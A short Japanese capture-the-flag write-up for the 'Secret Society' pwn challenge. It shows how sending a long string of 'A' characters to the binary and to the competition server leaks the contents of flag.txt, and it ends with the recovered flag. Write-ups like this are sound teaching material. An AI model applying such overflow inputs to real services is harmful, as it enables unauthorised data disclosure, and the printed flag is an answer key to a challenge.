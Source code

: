 # Secret Society:Pwn:XXXpts<!--XXX-->
Wanna enter the Secret Society? Well you have to find the secret code first!  
nc chall.csivit.com 30041  
[secret-society](secret-society)  

# Solution
secret-societyが渡される。  
とりあえず実行するとncとの違いが見られた。  
```bash
$ ls
secret-society
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a double agent, it's game over for you.
$ nc chall.csivit.com 30041
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, we are everywhere.
```
flag.txtを作ってみると同じ動きをするようだ。  
これはstringsの結果にflag.txtが存在することから予想した。  
```bash
$ echo "Test{Foooooooooooooooooooo}" > flag.txt
$ ls
flag.txt  secret-society
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, we are everywhere.
```
適当にAを入力するとflag.txtが見られたため、ncでも同様に行う。  
```bash
$ ./secret-society
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,Test{Foooooooooooooooooooo}
$ nc chall.csivit.com 30041
What is the secret phrase?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Shhh... don't tell anyone else about AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,csivit{Bu!!er_e3pl01ts_ar5_5asy}
```
flagが得られた。
理由は不明だが、形式が違う。  

## csivit{Bu!!er_e3pl01ts_ar5_5asy}